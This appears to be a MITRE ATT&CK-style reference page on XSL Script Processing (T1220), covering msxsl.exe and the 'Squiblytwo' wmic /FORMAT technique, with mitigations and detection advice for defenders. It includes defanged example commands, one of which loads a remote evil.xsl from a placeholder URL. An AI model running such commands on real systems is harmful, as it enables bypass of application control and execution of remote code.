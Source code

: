 # XSL Script Processing (T1220)

## Description
Adversaries may bypass application control and obscure execution of code by embedding scripts inside XSL files. Extensible Stylesheet Language (XSL) files are commonly used to describe the processing and rendering of data within XML files. To support complex operations, the XSL standard includes support for embedded scripting in various languages. 

Adversaries may abuse this functionality to execute arbitrary files while potentially bypassing application control. Similar to Trusted Developer Utilities Proxy Execution (T1127), the Microsoft common line transformation utility binary (msxsl.exe)  can be installed and used to execute malicious JavaScript embedded within local or remote (URL referenced) XSL files.  Since msxsl.exe is not installed by default, an adversary will likely need to package it with dropped files.  Msxsl.exe takes two main arguments, an XML source file and an XSL stylesheet. Since the XSL file is valid XML, the adversary may call the same XSL file twice. When using msxsl.exe adversaries may also give the XML/XSL files an arbitrary file extension.

Command-line examples:

* ```msxsl.exe customers[.]xml script[.]xsl```
* ```msxsl.exe script[.]xsl script[.]xsl```
* ```msxsl.exe script[.]jpeg script[.]jpeg```

Another variation of this technique, dubbed “Squiblytwo”, involves using Windows Management Instrumentation (T1047) to invoke JScript or VBScript within an XSL file. This technique can also execute local/remote scripts and, similar to its Regsvr32 (T1218.010)/ "Squiblydoo" counterpart, leverages a trusted, built-in Windows tool. Adversaries may abuse any alias in Windows Management Instrumentation (T1047) provided they utilize the /FORMAT switch.

Command-line examples:

* Local File: ```wmic process list /FORMAT:evil[.]xsl```
* Remote File: ```wmic os get /FORMAT:”https[:]//example[.]com/evil[.]xsl”```

## Tactics
- Defense Evasion (TA0005)

## Related Groups
- Cobalt Group (G0080)
- Higaisa (G0126)

## Mitigations
- Execution Prevention (M1038)

## Detection
Use process monitoring to monitor the execution and arguments of msxsl.exe and wmic.exe. Compare recent invocations of these utilities with prior history of known good arguments and loaded files to determine anomalous and potentially adversarial activity (ex: URL command line arguments, creation of external network connections, loading of DLLs associated with scripting).   Command arguments used before and after the script invocation may also be useful in determining the origin and purpose of the payload being loaded.

The presence of msxsl.exe or other utilities that enable proxy execution that are typically used for development, debugging, and reverse engineering on a system that is not used for these purposes may be suspicious.

### Detailed Detection by Data Source/Component
#### Module: Module Load (DS0011): 
Monitor DLL/PE file events, specifically creation of these binary files as well as the loading of DLLs into processes. Look for DLLs that are not recognized or not normally loaded into a process.

#### Process: Process Creation (DS0009): 
Use process monitoring to monitor the execution and arguments of msxsl.exe and wmic.exe.   Command arguments used before and after the script invocation may also be useful in determining the origin and purpose of the payload being loaded. The presence of msxsl.exe or other utilities that enable proxy execution that are typically used for development, debugging, and reverse engineering on a system that is not used for these purposes may be suspicious.

